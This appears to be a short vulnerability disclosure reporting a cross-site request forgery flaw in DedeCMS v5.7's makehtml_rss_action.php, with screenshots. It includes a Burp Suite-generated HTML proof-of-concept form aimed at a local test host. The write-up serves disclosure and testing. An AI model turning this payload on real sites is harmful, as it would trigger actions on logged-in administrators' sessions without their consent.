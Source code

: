 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/makehtml_rss_action.php
![1](https://github.com/Hckwzh/cms/assets/128144400/d01f1007-c6e9-4cb4-8300-1a375d105f5c)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/makehtml_rss_action.php">
      <input type="hidden" name="maxrecord" value="50" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>





```
![2](https://github.com/Hckwzh/cms/assets/128144400/5ebb3ffc-1dd2-4d4c-b787-bf8d8eeb9b20)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/601e3bf8-cd0e-4c22-9cf3-b7e94a830c77)
